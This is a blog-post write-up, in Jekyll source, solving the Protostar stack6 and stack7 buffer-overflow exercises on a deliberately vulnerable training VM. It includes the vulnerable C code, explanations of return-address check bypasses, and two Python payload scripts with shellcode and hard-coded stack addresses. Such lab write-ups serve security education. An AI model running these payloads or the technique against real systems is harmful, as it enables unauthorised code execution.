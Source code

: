 ```yaml
---
layout: post
title:  "Protostar Exploit Exercises: Stacks Part Three"
---
```


## [stack6](https://exploit-exercises.com/protostar/stack6/)

>###About
>
>Stack6 looks at what happens when you have restrictions on the return address.
>
>This level can be done in a couple of ways, such as finding the duplicate of the payload (objdump -s) will help with this), or ret2libc, or even return orientated programming.
>
>It is strongly suggested you experiment with multiple ways of getting your code to execute here.

Let's have a look at a excerpt from the code.

{% highlight c %}
void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}
{% endhighlight %}

In [my previous post]({% post_url 2016-01-11-protostar-part-two %}), I
used a return address which pointed to somewhere on the stack.  In
this challenge, that's no longer possible since the function checks
the return address & quits if the address we've provided is pointing
to somewhere on the stack.

## ROP-solution: Return oriented halting

Even though the C-code does not allow us to jump into our buffer,
there's no protection beyond that point. So what if we jumped to a location,
that jumps to a location?

![Return deeper]({{ site-url }}/assets/post_images/protostar_part3_go_deeper.png)

All we need to do is find a instruction *somewhere* in memory that 
holds a `ret` instruction. And that's the easy part.

After figuring out how much to overwrite, we put two and two together in `payload.py`

{% highlight python %}
# payload.py
from struct import pack

ret    = pack('L', 0x08048508)
buffer = pack('L', 0xbffff76c)
# https://www.exploit-db.com/exploits/37289/
shellcode = '\x31\xc0\x50\x68\x68\x61\x6c'+\
    '\x74\x68\x69\x6e\x2f\x2f\x68\x2f\x2f'+\
    '\x73\x62\x89\xe3\x50\x89\xe2\x53\x89'+\
    '\xe1\xb0\x0b\xcd\x80'

# esp = 0xbffff7bc
# buffer = 0xbffff76c
padding = "A" * (0xbffff7bc-0xbffff76c - len(shellcode))

payload = shellcode + padding + ret + buffer

print(payload)
{% endhighlight %}

`python shellcode.py > shellcode`

So when the `ret` in `getpath` executes, 4 bytes are popped of the stack
into eip & provided that eip is now pointing at another `ret` instruction,
another 4 bytes are popped of the stack & into eip. Right?

![Yep]({{ site-url }}/assets/post_images/protostar_part3_quite_right.png)

Right.

*note: The `pop` instruction increments the stack-pointer by 4, so we
 need to place the next return address after our initial one.*

There you have it. I might revisit this challenge with the ret2libc
solution later but for now - I've been unable to find the
system-function loaded in via libc in the executable. Looking for it
in gdb only yields `__libc_system`.

![Frowntown]({{ site-url }}/assets/post_images/protostar_part3_no_system.png)

* * *

## [stack7](https://exploit-exercises.com/protostar/stack7/)

> Stack6 introduces return to .text to gain code execution.
>
>The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

The `getpath` function is back, and this time... it's personal.

{% highlight c %}
char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}
{% endhighlight %}

strdup returns the address of the allocated string in the eax register.

We can get around the return-address check if we jump to the buffer
allocated by strdup. Very much like the previous challenge, I used gdb
to set a breakpoint at the `ret` instruction in getpath, took note of the 
following states:

+ The returned address from strdup stored in eax

+ The value of esp before the `ret` instruction executed.

+ The address of the buffer

{% highlight python %}
from struct import pack

shellcode = '\x31\xc0\x50\x68\x68\x61\x6c\x74'+\
    '\x68\x69\x6e\x2f\x2f\x68\x2f\x2f\x73\x62'+\
    '\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b'+\
    '\xcd\x80'
payload = shellcode +\
    'A'*(0x7bc-0x76c - len(shellcode)) +\
    pack('L', 0x804a008)

print(payload)
{% endhighlight %}

![Success]({{ site-url }}/assets/post_images/protostar_part3_ez_stack7.png)

![Happy]({{ site-url }}/assets/post_images/happy_zizek.jpg)

Now onto the Format challenges! :D

Thanks for reading!


